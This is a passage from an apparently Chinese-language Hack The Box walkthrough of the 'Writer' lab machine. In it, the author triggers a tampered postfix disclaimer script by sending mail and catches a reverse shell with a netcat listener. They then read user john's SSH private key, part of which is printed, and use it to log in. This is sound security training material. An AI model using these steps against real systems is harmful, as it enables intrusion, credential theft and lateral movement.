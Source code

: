 接下来，我们需要将修改后的免责声明文件复制回 postfix 文件夹，然后通过发送电子邮件来触发它:

```
kyle@writer:~$ cp /dev/shm/disclaimer /etc/postfix/disclaimer && python3 /dev/shm/sendmail.py
Mail sent
```

# 用户 John Access

切换到我们的等待 netcat 监听器，查看我们已经连接了 shell:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.15.39] from (UNKNOWN) [10.10.11.101] 36350
/bin/sh: 0: can't access tty; job control turned off
$
```

让我们四处看看:

```
$ whoami
john

$ id
uid=1001(john) gid=1001(john) groups=1001(john)

$ cd /home/john
$ ls -la 
-rw-r--r-- 1 john john 3771 May 14 18:19 .bashrc
drwx------ 2 john john 4096 Jul 28 09:19 .cache
-rw-r--r-- 1 john john  807 May 14 18:19 .profile
drwx------ 2 john john 4096 Jul  9 12:29 .ssh

$ ls -lsa .ssh
4 -rw-r--r-- 1 john john  565 Jul  9 12:29 authorized_keys
4 -rw------- 1 john john 2602 Jul  9 12:29 id_rsa
4 -rw-r--r-- 1 john john  565 Jul  9 12:29 id_rsa.pub

$ cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gt
<SNIP>
BwT0yAhKXBsBk18mx8roPS+wd9MTZ7XAUX6F2mZ9T12aIYQCajbzpd+fJ/N64NhIxRh5
Nwy7uLkQ0cIY6XAAAAC2pvaG5Ad3JpdGVyAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

我发现约翰有一个. ssh 文件夹，里面有他的钥匙。我将它复制到 Kali，并使用它来 SSH 以获得更好的 shell:

```
┌──(root💀kali)-[~/htb/writer]
└─# nano id_rsa  

┌──(root💀kali)-[~/htb/writer]
└─# chmod 600 id_rsa

┌──(root💀kali)-[~/htb/writer]
└─# ssh -i id_rsa john@writer.htb
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

Last login: Wed Jul 28 09:19:58 2021 from 10.10.14.19
john@writer:~$
```
